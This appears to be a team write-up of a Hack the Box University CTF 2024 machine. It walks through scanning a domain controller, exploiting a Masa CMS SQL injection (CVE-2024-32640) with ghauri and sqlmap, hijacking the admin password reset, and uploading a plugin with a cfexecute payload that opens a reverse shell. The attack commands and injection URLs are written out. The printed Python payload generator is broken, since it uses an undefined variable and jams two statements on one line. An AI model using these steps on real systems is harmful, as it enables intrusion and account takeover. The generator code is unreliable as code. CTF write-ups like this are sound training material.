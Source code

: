 Freedom is the second of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

## Table of contents : 
- [Reconnaissance](#reconnaissance) 
- [SQLi](#sqli) 
- [Remote code execution](#rce) 

## Reconnaissance

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 16:01 CET
Nmap scan report for freedom.htb (10.129.242.128)
Host is up (0.044s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Since this machine appeared to be a windows host and more specifically a DC and we don’t have any credentials on the AD let’s try to see if we can grab anything using default accounts like Guest or anonymous :
```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "" -p "" --shares
SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [+] freedom.htb\: 
SMB         10.129.242.128  445    DC1              [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "guest" -p "" --shares

SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [-] freedom.htb\guest: STATUS_ACCOUNT_DISABLED 
```

Unfortunately this wasn’t very successful, same for enum4linux.

In our initial nmap scan we could see that the port 80 was open so let’s check it out. We realised it was cms running which was called “Masa CMS” and found several endpoints corresponding to an API : [http://freedom.htb/index.cfm/_api/json/v1/default/](http://freedom.htb/index.cfm/_api/json/v1/default/)

![Masa CMS API](/images/api_masa.png)

The website was essentially a blog with a search functionality that allowed us to filter the articles being posted there. We tried several payloads in order to get an xss or even a ssti but nothing successful.  

Checking out the robots.txt file we found this : 

```
User-agent: *
Crawl-Delay: 5
Disallow: /admin/
Disallow: /core/
Disallow: /modules/
Disallow: /config/
Disallow: /themes/
Disallow: /plugins/
```

And visiting the /admin endpoint redirected us to the login page of the CMS : `[http://freedom.htb/admin/?muraAction=clogin.main](http://freedom.htb/admin/?muraAction=clogin.main)`

![Masa CMS Login](/images/login_masa_cms.png)

No default or weak credentials turned out to work unfortunately so let’s dig deeper. 
Playing around with several requests and looking at the answers on burp we managed to pinpoint the exact version of the CMS : Masa CMS 7.4.5
  ![Masa CMS version](/images/masa_cms_version.png)
## SQLi

After a bit of research we found out that this version of Masa CMS was vulnerable to an SQLi : [https://projectdiscovery.io/blog/hacking-apple-with-sql-injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection)

Let's verify if our instance is indeed vulnerable : 

`http://freedom.htb/index.cfm//_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C'&previewID=x`

![Masa CMS version](/images/masa_sql_error.png)

After searching for masa cms sqli we found a POC for this CVE :
  
[https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS)
  
After debugging and modifying a bit the script since it did not work for us on the first time we managed to use this payload :  
  
`ghauri -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C&previewID=x" -p contenthistid --dbs --current-db`

```
available databases [5]:
[] sys
[] performance_schema
[] information_schema
[] dbMasaCMS
[*] mysql
```

We dumped the DB and found an interesting table containing several users and their info -> including bcrypt password hashes but we were unable to crack them.

We then decided to change our approach by resetting the administrator password using the “forgot password button” and dumping the reset token in the db. 

![Reset admin pwd](/images/rest_admin_pwd.png)

At first we were unsuccessful at this and since the CMS is open source our idea was to reverse engineer the method responsible to generate forgotten password tokens : 

```
<cfset returnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#"> 

<cfelse>
<cfsetreturnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#">
```

Using infos found in the dumped db we managed to get close to a valid reset link : 

`http://freedom.htb/index.cfm/75296552-E0A8-4539-B1A46C806D767072/22FC551F-FABE-EA01-C6EDD0885DDC1682/?userID=75296552-E0A8-4539-B1A46C806D767072`

But it was flagged as `invalid or incorrect reset link`. Around the same time, a 
teammate managed to dump the link directly in the db using sqlmap :
`
`sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C'*&previewID=x" -p contenthistid --search -C "url" --batch`

`http://freedom.htb/?display=editProfile&returnID=E7EAB9CD-78D7-4EBB-A3FA718298F0CF15&returnUserID=75296552-E0A8-4539-B1A46C806D767072`

![Token db](/images/token_db.png)

We can then reset the admin password to "admin" for exemple and login on the CMS.

## RCE  

Looking around the administration page, we found an interesting feature : 
 ![Upload plugin](/images/upload_plugin.png)
While searching for plugin examples we stumbled accross this repository : https://github.com/MasaCMS/MasaAuthenticator

After spending quite some time analysing its source code and testing several payloads / uploading them on the CMS, we managed to get a remote code execution by modifying the following file : `config.xml.cfm`

Initially we used this tool [https://github.com/Impenetrable/ReverseFusion/tree/master](https://github.com/Impenetrable/ReverseFusion/tree/master "https://github.com/Impenetrable/ReverseFusion/tree/master")
to generate a reverse shell payload embedded into the .cfm file since we thought the target machine was a windows host (the DC). 

However while testing out our RCE payload, we got an error indicating it couldn't find cmd.exe and showed us clear sign of a linux host ( -> Absolute path like "/var/www/html")

Let's modify the script to get a working RCE : 

```
import sys 

ip = input("Enter attacking IP address: ")
port = int(input("Enter attacking port number: "))
filename = input("Enter output file name: ")

payload = f"arguments=\"-c {payload}\"" 

with open( filename+".cfm", "w+") as f: 
	f.write("<cfexecute name=\"/bin/bash\"\r") 
	f.write(payload+"\r") f.write("variable=\"data\"\r") 
	f.write("timeout=\"10\" />\r") 
	f.write("<cfdump var=\"#data#\">")

```

We zipped the whole plugin again with our malicious : `config.xml.cfm`
 ![Payload](/images/malicious_payload.png)
And uploaded it onto the CMS : 

![Zip exploit](/images/exploitzip.png)

Now to trigger our payload we just clicked on "Deploy" and we got our shell : 

![Reverse shell](/images/reverse_shell.png)

We get a shell on the wsl running on the windows host, but the whole C drive is mounted and we are root! A simple grep and we got both the user and the root flag at the same time! Our solve was completely unintended as the actual solve was mostly AD related (kerberoasting / asrep roasting / kerbrute..).
